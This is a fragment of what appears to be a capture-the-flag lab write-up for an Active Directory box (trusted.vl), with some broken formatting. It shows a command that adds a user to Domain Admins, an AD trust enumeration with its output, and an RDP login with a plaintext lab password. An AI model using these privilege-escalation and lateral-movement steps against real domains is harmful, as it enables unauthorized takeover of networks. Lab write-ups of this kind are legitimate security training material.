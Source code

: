 
no we will ewalters to domain admins

```bash

net group "Domain Admins" ewalters /add /domain

```

```bash
Get-ADComputer -Identity "labdc"
```




```Output

### Trust Enumeration: Unraveling the AD Relationships

```bash
PS C:\Users\Administrator> Get-ADTrust -Filter *  
  
  
Direction : BiDirectional  
DisallowTransivity : False  
DistinguishedName : CN=trusted.vl,CN=System,DC=lab,DC=trusted,DC=vl  
ForestTransitive : False  
IntraForest : True  
IsTreeParent : False  
IsTreeRoot : False  
Name : trusted.vl  
ObjectClass : trustedDomain  
ObjectGUID : c8005918-3c50-4c33-bcaa-90c76f46561c  
SelectiveAuthentication : False  
SIDFilteringForestAware : False  
SIDFilteringQuarantined : False  
Source : DC=lab,DC=trusted,DC=vl  
Target : trusted.vl  
TGTDelegation : False  
TrustAttributes : 32  
TrustedPolicy :  
TrustingPolicy :  
TrustType : Uplevel  
UplevelOnly : False  
UsesAESKeys : False  
UsesRC4Encryption : False  
  
  
  
PS C:\Users\Administrator>

```

since ewalter has member of rdp group so we xfreerdp
```bash
xfreerdp /v:10.10.178.54 /u:ewalters /p:'Ewwalter@123456'

```
